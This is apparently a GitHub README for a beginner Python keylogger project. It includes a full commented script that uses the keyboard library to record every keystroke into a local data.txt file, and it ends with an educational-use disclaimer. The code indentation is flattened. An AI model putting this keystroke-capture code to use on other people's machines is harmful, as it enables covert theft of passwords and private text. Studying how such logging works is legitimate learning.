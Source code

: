 <img align="center" src="https://media.licdn.com/dms/image/v2/D4D16AQGUNxQ7NSC05A/profile-displaybackgroundimage-shrink_350_1400/profile-displaybackgroundimage-shrink_350_1400/0/1738695150340?e=1744243200&v=beta&t=oXX-ixT9bR3dJcYCLv4KBs5wjKFoeP0524kFGHQMYmQ" alt="gabriellugo" />

# KEYLOGGER

<a href="https://github.com/GabrielLugooo/Keylogger" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/English%20Keylogger-000000" alt="English Keylogger" /></a>
<a href="https://github.com/GabrielLugooo/Keylogger/blob/main/README%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Spanish%20Keylogger-green" alt="Spanish Keylogger" /></a>

### Objective

This project aims to capture user keystrokes and store them in a text file. It is based on Python’s `keyboard` library to log each pressed key and save it in a `data.txt` file in real-time.

The keylogger is a useful tool for understanding how keyboard event capturing works in Python, enabling its application in areas such as cybersecurity, software testing, and accessibility.

### Skills Learned

- Capturing keyboard events in Python.
- Using the `keyboard` library.
- File handling in Python.
- Writing and reading data in text files.
- Automating processes with system events.

### Tools Used

![Static Badge](https://img.shields.io/badge/Python-000000?logo=python&logoSize=auto)
![Static Badge](https://img.shields.io/badge/keyboard-000000?logo=keyboard&logoSize=auto)

- Python
- `keyboard` library

### Project

#### Preview

<img align="center" src="https://i.imgur.com/uEPMPfS.jpeg" alt="keylogger1" />
<img align="center" src="https://i.imgur.com/7bhqjLd.jpeg" alt="keylogger2" />

#### Code with Comments (English)

```python
# Keylogger

# Install the necessary library with: pip install keyboard
# Import the library to detect keystrokes
import keyboard

# Function to be executed every time a key is pressed
def pressedKeys(key):
# Open (or create) the file 'data.txt' in append mode ('a')
with open('data.txt', 'a') as file:
# If the key pressed is the space bar, add a space to the file
if key.name == 'space':
file.write(' ')
else:
# Add the name of the pressed key to the file
file.write(key.name)

# Assign the pressedKeys function to be executed on every keystroke
keyboard.on_press(pressedKeys)

# Keep the program running waiting for keyboard events
keyboard.wait()
```

### Limitations

Keylogger it's just for educational purpose under the MIT License.

---

<h3 align="left">Connect with me</h3>

<p align="left">
<a href="https://www.youtube.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=55200&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="http://www.tiktok.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=118638&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="https://instagram.com/lugooogabriel" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=32309&format=png" alt="lugooogabriel" height="40" width="40" /></a>
<a href="https://twitter.com/gabriellugo__" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=phOKFKYpe00C&format=png" alt="gabriellugo__" height="40" width="40" /></a>
<a href="https://www.linkedin.com/in/hernando-gabriel-lugo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=8808&format=png" alt="hernando-gabriel-lugo" height="40" width="40" /></a>
<a href="https://github.com/GabrielLugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=80&id=AngkmzgE6d3E&format=png" alt="gabriellugooo" height="34" width="34" /></a>
<a href="mailto:lugohernandogabriel@gmail.com"> <img align="center" src="https://img.icons8.com/?size=50&id=38036&format=png" alt="lugohernandogabriel@gmail.com" height="40" width="40" /></a>
<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://simpleicons.org/icons/linktree.svg" alt="gabriellugooo" height="40" width="40" /></a>
</p>

<p align="left">
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/README.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/English%20Version-000000" alt="English Version" /></a>
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/Readme%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Spanish%20Version-Green" alt="Spanish Version" /></a>
</p>

<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Credits-Gabriel%20Lugo-green" alt="Credits" /></a>
<img align="center" src="https://komarev.com/ghpvc/?username=GabrielLugoo&label=Profile%20views&color=green&base=2000" alt="GabrielLugooo" />
<a href="" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/License-MIT-green" alt="MIT License" /></a>
